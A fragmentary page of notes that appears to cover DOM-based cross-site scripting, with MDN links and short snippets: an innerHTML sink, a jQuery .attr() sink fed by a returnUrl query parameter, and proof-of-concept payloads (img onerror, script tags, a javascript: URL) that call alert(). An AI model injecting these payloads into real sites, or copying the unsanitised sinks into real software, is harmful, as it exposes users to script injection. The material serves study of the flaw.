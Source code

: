 [https://developer.mozilla.org/en-US/docs/Web/HTML/Element/span](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/span)

[https://developer.mozilla.org/en-US/docs/Web](https://developer.mozilla.org/en-US/docs/Web)

innerHTML

[https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)

```
const name = "<img src='x' onerror='alert(1)'>";
el.innerHTML = name;
```

.attr()

```
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```

`?returnUrl=javascript:alert(document.domain)`

```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```
